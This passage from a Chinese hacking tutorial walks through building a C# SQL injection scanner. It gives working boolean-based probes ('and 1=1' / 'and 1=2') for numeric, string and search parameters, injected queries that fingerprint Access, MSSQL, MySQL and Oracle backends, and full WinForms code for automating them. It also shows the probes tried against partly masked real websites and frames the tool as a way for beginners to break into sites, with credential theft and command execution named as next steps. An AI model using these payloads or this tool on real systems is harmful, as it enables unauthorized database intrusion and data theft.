`1=1` 返回 true，等价于：

```sql
select *
from users
where id =100
```

这样和直接访问 `http://www.xxxx.com/userinfo.php?id=100` 实际是一样的。我们把 URL 改为 `http://www.xxxx.com/userinfo.php?id=100 and 1=2`，此时的 id 的值为“100 and 1=2”，执行的 SQL 查询实际是：

```sql
select *
from users
where id =100 and 1=2
```

`1=2` 返回 false，这样就会查询不到任何内容，程序肯定会出现异常。应用程序把我们提交的参数当做 SQL 语句执行了，这样我们可以判断存在漏洞。

例如，我们检测 `http://srse.xxx.cn/Students/News.asp?T=1&I=713` 是否存在注入漏洞。

- 第一步：提交 `http://srse.xxx.cn/Students/News.asp?T=1&I=713`，返回结果如图 1 所示。
- 第二步：提交 `http://srse.xxx.cn/Students/News.asp?T=1&I=713 and 1=1`，返回结果如图 2 所示。
- 第三步：提交 `http://srse.xxx.cn/Students/News.asp?T=1&I=713 and 1=2`，返回结果如图 3 所示。


图 1 正常访问结果


图 2 添加 and 1=1 后的访问结果


图 3 添加 and 1=2 后的访问结果

我们分析返回的结果，直接访问 `http://srse.xxx.cn/Students/News.asp?T=1&I=713` 正常显示，访问 `http://srse.xxx.cn/Students/News.asp?T=1&I=713 and 1=1` 正常显示，内容基本与上面相同；访问 `http://srse.xxx.cn/Students/News.asp?T=1&I=713 and 1=2` 出现明显的错误，内容与上面两次访问明显不同，可以确定这个 URL 是存在注入漏洞。

上面注入时，我们提交的数据 713 是数字类型，称为数字型注入，另外还有两类：字符型注入、搜索型注入，此时我们需要考虑单引号闭合的问题。我们检测这两类注入时只需转换检测 URL 如下：

### 字符型：

```
http://www.xxxx.com.cn/News.asp?T=1&user=pois0n
http://www.xxxx.com.cn/News.asp?T=1&user=pois0n' and '1'='1
http://www.xxxx.com.cn/News.asp?T=1&user=pois0n' and '1'='2
```

### 搜索型：

```
http://www.xxxx.com.cn/News.asp?T=1&keyword=pois0n
http://www.xxxx.com.cn/News.asp?T=1&keyword=pois0n%' and 1=1 and '%'='
http://www.xxxx.com.cn/News.asp?T=1&keyword=pois0n%' and 1=2 and '%'='
```

#### 2.3 漏洞检测代码实现

目前 SQL 注入漏洞成为最流行的攻击模式。为了简化攻击程序，很多编程高手开发出各式各样的 SQL 注入工具，例如 pangolin、NBSI、Domain、阿 D 等，傻瓜化的操作界面可以使广大菜鸟很轻松地搞定网站，让梦想编程的小菜们羡慕不已。其实编写一个检测工具并不如你想的那么难，下面我们就学习一下。

前面我们提到一种检测 SQL 注入的方式是通过 Web 应用程序响应结果的异同来进行检测。那么我们如何判断返回内容的差异呢？这是关系到注入工具好坏的重要参数。流行的注入工具普遍采用两个办法：根据返回的 HTTP 状态码和网页内容长度判断，以及根据关键字进行判断。

##### 2.3.1 利用 HTTP 状态码和网页内容长度检测

首先我们根据 HTTP 的状态码进行判断，然后再利用返回网页内容的长度进行判断，根据这个判断原则我们写出判断的程序代码。

```csharp
/* 函数 checkSqlInjection 检查是否存在注入点如果检测到注入点返回 TRUE，否则返回 FALSE */
private bool checkSqlInjection(
    HttpStatusCode normalStatusCode,   // 正常 URL 返回的 http 状态码
    HttpStatusCode StatusCode11,       // 正常 URL 后面添加 "and 1=1" 返回的 http 状态码
    HttpStatusCode StatusCode12,       // 正常 URL 后面添加 "and 1=2" 返回的 http 状态码
    long normalContentLength,          // 正常 URL 返回的长度
    long ContentLength11,              // 正常 URL 后面添加 "and 1=1" 返回的长度
    long ContentLength12)              // 正常 URL 后面添加 "and 1=2" 返回的长度
{
    // 如果正常 URL 后面添加 "and 1=1" 和正常 URL 返回的状态码相同，但是正常 URL 后面添加
    // "and 1=1" 和正常 URL 后面添加 "and 1=2" 返回的状态码不相同，可以确定存在注入
    if ((StatusCode11 == normalStatusCode) && (StatusCode11 != StatusCode12))
    {
        return true;   // 存在注入点
    }
}
```

```csharp
// 如果状态码无法判断，继续根据返回数据的长度判断
if (normalContentLength != 0 && ContentLength11 != 0 && ContentLength12 != 0) // 都有返回数据
{
    if (normalContentLength == ContentLength11) // 正常URL后面添加"and 1=1"和正常URL返回的长度相同
    {
        if (ContentLength11 != ContentLength12) // 正常URL后面添加"and 1=1"和正常URL后面添加"and 1=2"返回的长度不相同
        {
            return true;   // 存在注入点
        }
        else
        {
            return false;  // 不存在注入点
        }
    }
}
else if (normalContentLength != 0 && ContentLength11 != 0 && ContentLength12 == 0)
{
    return true; // 正常URL后面添加"and 1=1"和正常URL返回的长度不为0，正常URL后面添加"and 1=2"返回的长度为0，存在注入点
}
else
{
    return false; // 正常URL后面添加"and 1=1"返回的长度为0，正常URL后面添加"and 1=2"返回的长度为0，不存在注入点
}
return false; // 默认返回 false
```

剩下的问题就是如何得到访问一个 URL 的返回内容、返回内容的长度及返回的 HTTP 状态码。这些我们在第二章的 HTTP 编程里都实现过了，这里给出实现代码。

```csharp
/* 定义函数 getHttpStatuscodeAndContentLength，返回状态码和长度信息，通过 out 参数把返回结果保存到我们指定的变量中 */
private void getHttpStatuscodeAndContentLength(string m_HttpUrl, out HttpStatusCode m_StatusCode, out long m_ContentLength)
{
    m_StatusCode = HttpStatusCode.BadRequest; // 在使用前要对 out 参数赋值，否则会报错
    m_ContentLength = 0;
    try
    {
        HttpWebRequest pois0nWebReq = (HttpWebRequest)WebRequest.Create(new Uri(m_HttpUrl));
        pois0nWebReq.UserAgent = "User-Agent Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) pois0n access/beta v1.0"; //Mozilla
        HttpWebResponse pois0nWebRep = (HttpWebResponse)pois0nWebReq.GetResponse();
        m_StatusCode = pois0nWebRep.StatusCode;
        m_ContentLength = pois0nWebRep.ContentLength;
        pois0nWebReq.Abort();
        pois0nWebRep.Close();
    }
    catch
    {
        // 捕捉到 Exception
    }
}
```

上面的功能实现以后，我们的检测代码就容易了。

```csharp
/* 首先我们定义几个变量来保存 HTTP 状态码和长度信息 */
private HttpStatusCode normalStatusCode;      // 正常 URL 返回的 http 状态码
private long normalContentLength;             // 正常 URL 返回的长度
private HttpStatusCode StatusCode_11;         // 正常 URL 后面添加 'and 1=1' 返回的 http 状态码
private long ContentLength_11;                // 正常 URL 后面添加 'and 1=1' 返回的长度
private HttpStatusCode StatusCode_12;         // 正常 URL 后面添加 'and 1=2' 返回的 http 状态码
private long ContentLength_12;                // 正常 URL 后面添加 'and 1=2' 返回的长度

/* 判断过程首先判断是否存在数字型注入点，然后字符型，最后搜索型 */
getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);
getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=1", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=2", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    comboBox_type.Text = "数字型";
    return; // 存在数字型注入点 返回退出此函数不再继续检测
}

getHttpStatuscodeAndContentLength(my_checkUrl + " and '1'='1'", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and '1'='2'", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    comboBox_type.Text = "字符型";
    return; // 存在字符型注入点 返回退出此函数不再继续检测
}

getHttpStatuscodeAndContentLength(my_checkUrl + "%25' and 1=1 and '%25'='", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + "%25' and 1=2 and '%25'='", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    comboBox_type.Text = "搜索型";
    return; // 存在搜索型注入点 返回退出此函数不再继续检测
}

MessageBox.Show("没有检测到注入点= =!!");
```

尝试下我们的代码是否真的可以检测出注入漏洞吧！

## 实例1

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为实例1。

添加两个 Label 控件、两个 ComboBox 控件、一个 Button 控件、一个 RichTextBox 控件，分别命名为 `label_url`、`label_type`、`comboBox_type`、`comboBox_url`、`button_check`、`richTextBox_InjectLog`，调整到合适的大小，最后效果如图4所示。


图4 控件布局

双击开始检测按钮，自动添加函数 `private void button_check_Click(object sender, EventArgs e)`，在函数里面实现我们的自定义代码：

```csharp
private void button_check_Click(object sender, EventArgs e)
{
    string my_checkUrl = comboBox_url.Text.Trim();
    getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);
    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=1", out StatusCode_11, out ContentLength_11);
    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=2", out StatusCode_12, out ContentLength_12);
    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        comboBox_type.Text = "数字型";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 存在数字型注入点" + "\r\n";
        return; // 存在数字型注入点 返回退出此函数不再继续检测
    }

    getHttpStatuscodeAndContentLength(my_checkUrl + "' and '1'='1", out StatusCode_11, out ContentLength_11);
    getHttpStatuscodeAndContentLength(my_checkUrl + "' and '1'='2", out StatusCode_12, out ContentLength_12);
    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        comboBox_type.Text = "字符型";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 存在字符型注入点" + "\r\n";
        return; // 存在字符型注入点 返回退出此函数不再继续检测
    }

    getHttpStatuscodeAndContentLength(my_checkUrl + "%25' and 1=1 and '%25'='", out StatusCode_11, out ContentLength_11);
    getHttpStatuscodeAndContentLength(my_checkUrl + "%25' and 1=2 and '%25'='", out StatusCode_12, out ContentLength_12);
    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        comboBox_type.Text = "搜索型";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 存在搜索型注入点" + "\r\n";
        return; // 存在搜索型注入点 返回退出此函数不再继续检测
    }

    MessageBox.Show("没有检测到注入点——!!");
}
```

（完整代码详见光盘）


最后按“Ctrl+F5”编译运行，在注入点处输入需要检测的 URL，单击“开始检测”按钮，运行效果如图5所示。

我们手动去验证一下，看看是不是真的如程序所说存在漏洞。

- 1. 第一步：提交 `http://stuic.xxx.cn/News.aspx?id=861`，返回结果如图6所示。
- 2. 第二步：提交 `http://stuic.xxx.cn/News.aspx?id=861 and 1=1`，返回结果如图7所示。
- 3. 第三步：提交 `http://stuic.xxx.cn/News.aspx?id=861 and 1=2`，返回结果如图8所示。

分析返回结果后，可以确定这个 URL 存在注入漏洞。


## 2.2.2 利用关键字检测

用刚才的工具检测 `http://www.xxxxx.com.cn/lydtsub/article.jsp?articleId=277236`，返回结果如图9所示。

我们手动去验证一下。

- 1. 第一步：提交 `http://www.xxxxx.com.cn/lydtsub/article.jsp?articleId=277236`，返回结果如图10所示。
- 2. 第二步：提交 `http://www.xxxxx.com.cn/lydtsub/article.jsp?articleId=277236 and 1=1`，返回结果如图11所示。
- 3. 第三步：提交 `http://www.xxxxx.com.cn/lydtsub/article.jsp?articleId=277236 and 1=2`，返回结果如图12所示。


分析返回的结果，注入漏洞是真实存在的，只是我们被自己写的程序“欺骗”了而已。其实并不是程序欺骗了我们，而是某些网站会人为修改返回的状态码和内容的长度来欺骗我们的程序。为了解决这个问题，注入工具的“关键字”检测功能诞生了。

什么是关键字呢？简单说，关键字就是直接访问 URL 显示的内容中包含的某个字符串，在访问 `URL+and 1=1` 时显示的内容中也包含这个字符串，但是在访问 `URL+and 1=2` 时显示的内容中不包含这个字符串的特殊内容。如图10中包含的“XXXXX局”也包含在图11中，但是图12中却不包含，我们就可以把“XXXXX局”作为一个关键字。

我们如何利用关键字来判断是否存在注入呢？一个简单的原则就是：如果访问正常 URL 显示的内容，在访问正常 `URL+and 1=1` 时显示的内容中也包含，但访问正常 `URL+and 1=2` 时显示的内容中不包含，我们可以确定存在注入漏洞，否则不存在。

根据这个判断原则，我们写出判断的程序代码。

```csharp
/* my_checkUrl是我们定义的要检测的URL
   m_KeyWord是我们指定的关键字
   getHttpContent()函数的作用是得到网页的内容 */
if (getHttpContent(my_checkUrl + "and 1=1").Contains(m_KeyWord) && !getHttpContent(my_checkUrl + "and 1=2").Contains(m_KeyWord))
{
    MessageBox.Show("存在数字型注入点");
    comboBox_type.Text = "数字型";
    return; // 存在数字型注入点返回退出此函数不再继续检测
}

if (getHttpContent(my_checkUrl + " and '1'='1'").Contains(m_KeyWord) && !getHttpContent(my_checkUrl + " and '1'='2'").Contains(m_KeyWord))
{
    MessageBox.Show("存在字符型注入点");
    comboBox_type.Text = "字符型";
    return; // 存在字符型注入点返回退出此函数不再继续检测
}

if (getHttpContent(my_checkUrl + "'%25' and 1=1 and '%25'=''").Contains(m_KeyWord) && !getHttpContent(my_checkUrl + "'%25' and 1=2 and '%25'=''").Contains(m_KeyWord))
{
    MessageBox.Show("存在搜索型注入点");
    comboBox_type.Text = "搜索型";
    return; // 存在搜索型注入点返回退出此函数不再继续检测
}

MessageBox.Show("没有检测到注入点--_-!!");
```

下面的代码是得到一个 URL 的返回内容。

```csharp
/* 定义函数getHttpContent()，作用是根据参数m_HttpUrl指定的URL得到相应的返回内容 */
private string getHttpContent(string m_HttpUrl)
{
    WebClient myWebClient = new WebClient();  // 创建WebClient实例myWebClient
    byte[] myDataBuffer = myWebClient.DownloadData(m_HttpUrl);
    string strWebData = Encoding.Default.GetString(myDataBuffer);
    // 利用正则表达式读取网页字符编码描述信息
    Match charSetMatch = Regex.Match(strWebData, "<meta[^<]*charset=([^<]*)\"", RegexOptions.IgnoreCase | RegexOptions.Multiline);
    string webCharSet = charSetMatch.Groups[2].Value;
    if (webCharSet != null && webCharSet != "" && Encoding.GetEncoding(webCharSet) != Encoding.Default)
        strWebData = Encoding.GetEncoding(webCharSet).GetString(myDataBuffer);
    else
        strWebData = Encoding.Default.GetString(myDataBuffer);
    return strWebData;  // strWebData得到的返回内容字符串
}
```

## 实例2

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为实例2。

添加三个 Label 控件、三个 ComboBox 控件、一个 Button 控件、一个 RichTextBox 控件，分别命名为 `label_url`、`label_type`、`label_keyWord`、`comboBox_type`、`comboBox_url`、`comboBox_keyWord`、`button_check`、`richTextBox_InjectLog`，调整到合适的大小，最后效果如图13所示。

双击开始检测按钮，自动添加函数 `private void button_check_Click(object sender, EventArgs e)`，在函数里面实现我们的自定义代码：


```csharp
private void button_check_Click(object sender, EventArgs e)
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_KeyWord = comboBox_keyWord.Text.Trim();
    // my_checkUrl是我们定义的要检测的URL，m_KeyWord是我们指定的关键字
    if (!getHttpContent(my_checkUrl + "and '1=1'").Contains(m_KeyWord) && !getHttpContent(my_checkUrl + "and '1=2'").Contains(m_KeyWord))
    {
        MessageBox.Show("存在数字型注入点");
        comboBox_type.Text = "数字型";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 存在数字型注入点" + "\r\n";
        return; // 存在数字型注入点返回退出此函数不再继续检测
    }

    if (!getHttpContent(my_checkUrl + "' and '1'='1'").Contains(m_KeyWord) && !getHttpContent(my_checkUrl + "' and '1'='2'").Contains(m_KeyWord))
    {
        MessageBox.Show("存在字符型注入点");
        comboBox_type.Text = "字符型";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 存在字符型注入点" + "\r\n";
        return; // 存在字符型注入点返回退出此函数不再继续检测
    }

    if (getHttpContent(my_checkUrl + "%25' and 1=1 and '%25'='").Contains(m_KeyWord)
        && !getHttpContent(my_checkUrl + "%25' and 1=2 and '%25'='").Contains(m_KeyWord))
    {
        MessageBox.Show("存在搜索型注入点");
        comboBox_type.Text = "搜索型";
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 存在搜索型注入点" + "\r\n";
        return; // 存在搜索型注入点返回退出此函数不再继续检测
    }

    MessageBox.Show("没有检测到注入点——!");
}
```

（完整代码可以详见光盘）

最后按“Ctrl+F5”编译运行，在注入点处输入需要检测的 URL，在关键字处输入我们指定的关键字，单击“开始检测”按钮，运行效果如图14所示。这次我们通过关键字成功检测到了注入漏洞的存在。


图14 成功检测到注入点

### 3 判断数据库类型

#### 3.1 数据库类型判断方法

通过前面的学习，我们检测到一个 URL 存在注入漏洞后，接下来我们还要知道这个注入点后台用的是什么类型的数据库。前面我们说过数据库才是决定注入的主要原因，不同的数据库，注入利用方式是不同的，与 Web 使用的具体脚本关系不是很大。知道了数据库类型，才能根据具体的数据库来进行下一步操作，比如猜解管理员信息、执行系统命令等。一般判断数据库类型都是根据数据库特有的特征来进行的，比如数据库特有的函数、特有的表、特有的注释字符等。下面我们介绍 Access、MSSQLServer、MySQL、Oracle 四种常见数据库的判断方法特征。

### 3.1.1 判断 ACCESS 数据库

在 Access 数据库的内置函数中，有一个 `asc()` 函数，`asc()` 函数的作用是返回字母的 ASCII 值，如 `asc("A")=65`。`asc()` 是 Access 中特有的函数，我们可以根据这个函数来检测注入点后台是不是 Access 数据库。

- 假设 `http://www.xxxx.com/xxxx.asp?id=345` 存在数字类型的注入。
- 第一步：`http://www.xxxx.com/xxxx.asp?id=345`
- 第二步：`http://www.xxxx.com/xxxx.asp?id=345 and asc(chr(65))=65`

第三步：http://www.xxxx.com/xxxx.asp?id=345 and asc(chr(65))<>65

第一步正常显示，第二步正常显示且返回内容基本与第一步相同，第三步返回内容与第一步、第二步存在明显不同，那么就可以确定注入点数据库类型为 access，否则为其他数据库类型。在实际检测中，我们只需根据第一步和第二步的检测结果进行判断就足够了。

## 3.1.2 判断 MSSQL SERVER 数据库

在 mssql 的系统表中，sysobjects 是特有的系统表，我们可以根据这个表检测注入点是不是 mssql 类型的数据库。

假设 http://www.xxxx.com/xxxx.asp?id=345 存在数字类型的注入。

- 第一步：http://www.xxxx.com/xxxx.asp?id=345
- 第二步：http://www.xxxx.com/xxxx.asp?id=345 and (select count(*) from sysobjects)>0

第一步正常显示，第二步正常显示且返回内容基本与第一步相同，可以确定注入点数据库类型为 mssql，否则为其他数据库类型。在检测出是 mssql 类型以后，我们还应该继续判断 mssql 的版本，不同版本的利用方法是不同的，在后面的章节中我们会详细介绍。

## 3.1.3 判断 MYSQL 数据库

“/*”注释符是 MYSQL 特有的，我们可以根据这点判断是否是 MYSQL 的数据库。

假设 http://www.xxxx.com/xxxx.asp?id=345 存在数字类型的注入。

- 第一步：http://www.xxxx.com/xxxx.asp?id=345
- 第二步：http://www.xxxx.com/xxxx.asp?id=345 and 1=1/*

第一步正常显示，第二步正常显示且返回内容基本与第一步相同，可以确定注入点数据库类型为 mysql，否则为其他数据库类型。在检测出是 mysql 类型以后，我们还应该继续判断 mysql 的版本是 3.x 还是 4.x 或是 5.x，不同版本的利用方法不同，在后面的章节中我们也会详细介绍。

## 3.1.4 判断 ORACLE 数据库

在 oracle 中，user_tables 是 oracle 特有的，我们可以根据这个表检测注入点是不是 oracle 类型的数据库。

假设 http://www.xxxx.com/xxxx.asp?id=345 存在数字类型的注入。

- 第一步：http://www.xxxx.com/xxxx.asp?id=345
- 第二步：http://www.xxxx.com/xxxx.asp?id=345 and (select count(table_name) from user_tables)>0

第一步正常显示，第二步正常显示且返回内容基本与第一步相同，可以确定注入点数据库类型为 oracle，否则为其他数据库类型。

在这里，我们只是列举了最常见的四种数据库类型的判断，对于初学者先掌握这几种常见数据库类型的判断就足够了，其他的数据库类型原理是一样的。如果以后有机会接触学习 sybase、db2、informix 等，再加上这几种数据库类型的判断就可以了。除了知道这些数据库的特征外，检测顺序也是至关重要的，如果安排的顺序合理，程序的效率和准确度都会相应提高。

根据我分析其他流行的注入工具的经验，一般的检测顺序为：mssql、oracle、mysql、access。

#### 3.2 数据库判断代码实现

##### 3.2.1 利用 HTTP 状态码和网页内容长度检测

我们根据判断数据库类型的方法完成判断代码。这里仅仅给出数字型注入点下利用“HTTP 的状态码和网页内容的长度”的方法进行判断，字符型和搜索型的判断代码参照完整程序，判断程序代码如下：

```csharp
/* 函数 getHttpStatuscodeAndContentLength 返回状态码和长度信息，通过 out 参数把返回结果保存到我们指定的变量中。函数 checkSqlInjection 检查是否存在注入点，如果检测到注入点返回 TRUE，否则返回 FALSE */
getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);
getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from sysobjects)>0", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from sysobjects)=0", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    MessageBox.Show(" 数据库类型为 mssql");
    comboBox_database.Text = "mssql";
    return;
}

getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(table_name) from user_tables)%3E0", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(table_name) from user_tables)=0", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    MessageBox.Show(" 数据库类型为 oracle");
    comboBox_database.Text = "oracle";
    return;
}

getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=1/*", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=2/*", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    MessageBox.Show(" 数据库类型为 mysql");
    comboBox_database.Text = "mysql";
    return;
}

getHttpStatuscodeAndContentLength(my_checkUrl + " and asc(chr(65))=65", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and asc(chr(65))<>65", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
{
    MessageBox.Show("数据库类型为 access");
    comboBox_database.Text = "access";
    return;
}
```

## 实例3

打开 VS2005 中的“文件新建项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为实例3。

添加三个 label 控件、三个 comboBox 控件、一个 button 控件、一个 richTextBox 控件，分别命名为 label_url、label_type、label_database、comboBox_type、comboBox_url、comboBox_database、button_check、richTextBox_InjectLog，调整到合适的大小，为 comboBox_type 添加三个下拉选择项“数字型、字符型、搜索型”，最后效果如图15所示。


双击开始检测按钮，自动添加函数 `private void button_check_Click(object sender, EventArgs e)`，在函数里面实现我们的自定义代码：

```csharp
private void button_check_Click(object sender, EventArgs e)
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    switch (injection_Type)
    {
        case "数字型":
        {
            getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);
            getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from sysobjects)>0", out StatusCode_11, out ContentLength_11);
            getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(*) from sysobjects)=0", out StatusCode_12, out ContentLength_12);
            if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
            {
                comboBox_database.Text = "mssql";
                richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库mssql" + "\r\n";
                return;
            }

            getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(table_name) from user_tables)%3E0", out StatusCode_11, out ContentLength_11);
            getHttpStatuscodeAndContentLength(my_checkUrl + " and (select count(table_name) from user_tables)=0", out StatusCode_12, out ContentLength_12);
        }
        break;
    }
}
```

```csharp
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12,
    normalContentLength, ContentLength_11, ContentLength_12))
{
    comboBox_database.Text = "oracle";
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl
        + " 数据库 oracle" + "\r\n";
    return;
}

getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=1/*", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=2/*", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12,
    normalContentLength, ContentLength_11, ContentLength_12))
{
    comboBox_database.Text = "mysql";
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl
        + " 数据库 mysql" + "\r\n";
    return;
}

getHttpStatuscodeAndContentLength(my_checkUrl + " and asc(chr(65))=65", out StatusCode_11, out ContentLength_11);
getHttpStatuscodeAndContentLength(my_checkUrl + " and asc(chr(65))<>65", out StatusCode_12, out ContentLength_12);
if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12,
    normalContentLength, ContentLength_11, ContentLength_12))
{
    comboBox_database.Text = "access";
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl
        + " 数据库 access" + "\r\n";
    return;
}

break;
case "字符型":
    ......
case "搜索型":
    ......
```


图16 检测结果为 mssql

最后按“Ctrl+F5”编译运行，在注入点处输入需要检测的URL，注入类型下拉列表中选择注入点的类型，单击“开始检测”按钮，我们尝试检测存在注入漏洞的数据库，最终运行效果如图16及图17所示。

##### 3.2.2 利用关键字检测

我们根据关键字判断数据库类型的方法完成判断代码，这里仅仅给出数字型注入点下利用“关键字”的方法进行判断，字符型和搜索型的判断代码参照完整程序，判断程序代码如下：


图17 检测结果为 mysql

```csharp
/* my_checkUrl 是我们定义的要检测的URL  m_KeyWord 是我们指定的关键字  getHttpContent()函数的作用是得到网页的内容  injection_Type 是我们检测出来的注入点的类型 */
string my_checkUrl = comboBox_url.Text.Trim();
string m_KeyWord = comboBox_keyWord.Text.Trim();
string injection_Type = comboBox_type.Text.Trim();
switch (injection_Type)
{
    case "数字型":
    {
        if (getHttpContent(my_checkUrl + " and (select count(*) from sysobjects)>0").Contains(m_KeyWord))
        {
            comboBox_database.Text = "mssql";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库 mssql" + "\r\n";
            return;
        }
        if (getHttpContent(my_checkUrl + " and (select count(table_name) from user_tables)>0").Contains(m_KeyWord))
        {
            comboBox_database.Text = "oracle";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库 oracle" + "\r\n";
            return;
        }
        if (getHttpContent(my_checkUrl + " and 1=1/*").Contains(m_KeyWord))
        {
            comboBox_database.Text = "mysql";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库 mysql" + "\r\n";
            return;
        }
        if (getHttpContent(my_checkUrl + " and asc(chr(65))=65").Contains(m_KeyWord))
        {
            comboBox_database.Text = "access";
            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 数据库 access" + "\r\n";
            return;
        }
    }
    break;
    case "字符型":
        ......
    case "搜索型":
        ......
}
```

## 实例4

打开 VS2005 中的“文件新建项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为实例4。

添加四个 Label 控件、四个 ComboBox 控件、一个 Button 控件、一个 RichTextBox 控件，分别命名为 `label_url`、`label_type`、`label_keyWord`、`label_database`、`comboBox_type`、`comboBox_url`、`comboBox_database`、`comboBox_keyWord`、`button_check`、`richTextBox_InjectLog`，调整到合适的大小，为 `comboBox_type` 添加三个下拉选择项“数字型、字符型、搜索型”，最终效果如图18所示。


图18 控件布局

按“Ctrl+F5”编译运行，在注入点处输入需要检测的 URL，注入类型下拉列表中选择注入点的类型，在关键字处输入“关键字”，单击“开始检测”按钮，我们尝试检测存在注入漏洞的数据库，最终运行效果如图19所示。


图19 检测到注入点存在

### 4 异步调用

上面我们基本实现了一个注入工具最基本的功能，但发现当我们访问网络时速度比较慢，单击开始检测按钮后，程序会假死在那里，动也不能动，直到检测结束后，程序才正常显示，完全没考虑我们实际体验效果。

这是因为普通函数运行是单线程的，如果中途有大型操作（如：读取大文件、大批量操作数据库、网络传输等），都会导致函数阻塞，直到这个函数执行完毕才会进入下一步的操作。表现在界面上就是程序卡或者死掉，界面不响应我们的操作。

为此我们需要用一个“异步调用”来解决这个问题。异步执行某个方法，程序开辟一个新线程去运行功能，界面就不会死掉了。至于异步调用的原理，我们不需要花过多的时间去理解，对于初学者只要理解如何去用已经足够了。我们利用异步调用的基本用法如下：

```csharp
/* 首先我们定义一个函数 function_exec()，把我们要实现的功能代码放在这个函数里面，
当我们单击开始按钮后异步调用 function_exec()，避免程序的主界面出现假死的现象，示例代码如下。*/
public delegate void DelegateExecFunction();
private void button_getTable_Click(object sender, EventArgs e)
{
    DelegateExecFunction delStartExec = new DelegateExecFunction(function_exec); // function_exec()不能带参数，程序运行到这里会自动去执行function_exec()的功能
    AsyncCallback callBackWhenDone = new AsyncCallback(EndExecFunction); // EndExecFunction()异步调用返回后自动执行的代码
    delStartExec.BeginInvoke(callBackWhenDone, null);
}

private void function_exec()
{
    // 要实现的功能代码
}
```

```csharp
private void EndExecFunction(IAsyncResult arResult)
{
    GC.Collect(); // 自动回收释放资源
}
```

## 实例5

我们在实例4的基础上进行修改，把原来的功能代码放到一个函数里面，然后去异步调用这个函数，修改代码如下：

```csharp
public delegate void DelegateCheckDatabase();
private void EndCheckDatabase(IAsyncResult arResult)
{
